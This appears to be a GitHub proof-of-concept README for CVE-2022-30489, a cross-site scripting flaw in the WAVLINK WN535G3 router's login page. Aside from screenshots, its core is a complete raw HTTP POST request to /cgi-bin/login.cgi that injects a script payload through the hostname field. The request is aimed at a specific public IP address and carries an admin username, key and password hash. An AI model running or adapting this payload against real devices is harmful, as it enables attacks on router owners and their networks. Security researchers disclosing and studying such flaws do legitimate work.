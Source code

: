 # WAVLINK   WN535G3 POST XSS

# Use CVE-2022-30489

![image](https://user-images.githubusercontent.com/72059221/167049389-760be75c-6d84-45f6-a8aa-ff4e7e05241b.png)



![image](https://user-images.githubusercontent.com/72059221/167049403-82f98ff0-6774-4a6f-99f4-f712824c765b.png)



![image](https://user-images.githubusercontent.com/72059221/167049414-0eceb092-33b3-4bf6-93af-1e080c4fb314.png)


## PAYLOAD

```
POST /cgi-bin/login.cgi HTTP/1.1 Host: 98.127.66.193 Content-Length: 255 Cache-Control: max-age=0 Upgrade-Insecure-Requests: 1 Origin: http://98.127.66.193 Content-Type: application/x-www-form-urlencoded User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.212 Safari/537.36 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9 Referer: http://98.127.66.193/ Accept-Encoding: gzip, deflate Accept-Language: zh-CN,zh;q=0.9 Connection: close newUI=1&page=login&username=admin&langChange=0&ipaddr=171.113.240.243&login_page=login.shtml&homepage=main.shtml&sysinitpage=sysinit.shtml&hostname=")&lt;/&gt;&lt;&gt;alert(1)&lt;/&gt;&key=M27234733&password=63a36bceec2d3bba30d8611c323f4cda&lang_=cn
```



![image](https://github.com/trhacknon/XSS-CVE-2022-30489/blob/main/Screenshot_2022-05-19-01-22-15-510_com.darknethaxor.hackbar.jpg)


![image](https://github.com/trhacknon/XSS-CVE-2022-30489/blob/main/Screenshot_2022-05-19-01-26-37-769_com.darknethaxor.hackbar.jpg)



